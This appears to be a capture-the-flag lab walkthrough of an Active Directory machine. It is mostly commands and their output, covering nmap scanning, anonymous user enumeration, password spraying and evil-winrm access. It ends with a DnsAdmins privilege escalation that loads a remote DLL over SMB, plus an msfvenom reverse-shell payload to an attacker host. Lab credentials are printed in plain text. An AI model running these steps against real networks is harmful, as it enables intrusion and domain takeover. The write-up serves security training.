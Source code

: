 #Windows #active-directory 


# nmap scan

```shell
nmap -sC -sV -oN nmap/resolute $IP -T5 -p- 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-07 09:46 CDT
Warning: 10.129.96.155 giving up on port because retransmission cap hit (2).
Stats: 0:06:21 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 78.64% done; ETC: 09:54 (0:01:43 remaining)
Stats: 0:08:28 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 64.00% done; ETC: 09:55 (0:00:10 remaining)
Stats: 0:08:30 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 64.00% done; ETC: 09:55 (0:00:11 remaining)
Stats: 0:09:10 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 97.34% done; ETC: 09:55 (0:00:00 remaining)
Nmap scan report for 10.129.96.155
Host is up (0.24s latency).
Not shown: 65234 closed tcp ports (reset), 276 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-10-07 15:01:52Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49686/tcp open  msrpc        Microsoft Windows RPC
49806/tcp open  msrpc        Microsoft Windows RPC
49854/tcp open  tcpwrapped
49911/tcp open  tcpwrapped
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-10-07T15:02:47
|_  start_date: 2024-10-07T14:46:55
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2024-10-07T08:02:48-07:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
|_clock-skew: mean: 2h27m01s, deviation: 4h02m32s, median: 6m59s

```


# enumerated smb share using rpcclient

```shell
rpcclient -U '' -N $IP

rpcclient -U '' -N $IP
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[ryan] rid:[0x451]
user:[marko] rid:[0x457]
user:[sunita] rid:[0x19c9]
user:[abigail] rid:[0x19ca]
user:[marcus] rid:[0x19cb]
user:[sally] rid:[0x19cc]
user:[fred] rid:[0x19cd]
user:[angela] rid:[0x19ce]
user:[felicia] rid:[0x19cf]
user:[gustavo] rid:[0x19d0]
user:[ulf] rid:[0x19d1]
user:[stevie] rid:[0x19d2]
user:[claire] rid:[0x19d3]
user:[paulo] rid:[0x19d4]
user:[steve] rid:[0x19d5]
user:[annette] rid:[0x19d6]
user:[annika] rid:[0x19d7]
user:[per] rid:[0x19d8]
user:[claude] rid:[0x19d9]
user:[melanie] rid:[0x2775]
user:[zach] rid:[0x2776]
user:[simon] rid:[0x2777]
user:[naoki] rid:[0x2778]

```

# crackmapexe also provides users

```shell
cme smb $IP -u '' -p '' --users
```

Found credentials from the description

marko:Welcome123!

# unable to login marko user, seems like the user changed his password so I used password spray attack using the Welcome123!

```shell
 cme smb 10.129.96.155 -u ldap.txt -p Welcome123!
```

# found melanie, gained remote access using the user
```shell
 evil-winrm -i 10.129.96.155 -u melanie -p Welcome123!
```

# /PStranscripts directory contains a file that has credentials

```powershell
ryan Serv3r4Admin4cc123!
```

```powershell
whoami /group
```

# ryan is a member of the group dnsadmins , this group has a privilege to modify dns server
[source](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges) 

```powershell
dnscmd [dc.computername] /config /serverlevelplugindll \\1.2.3.4\share\DNSAdmin-DLL.dll

sc.exe stop dns
sc.exe start dns
```
# Created an smb server for the dnscmd to pull files from 

```shell
sudo impacket-smbserver share $(pwd)

```

# msfvenom payload 

```shell
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=<attacker> LPORT=<port> -f dll > shell.dll
```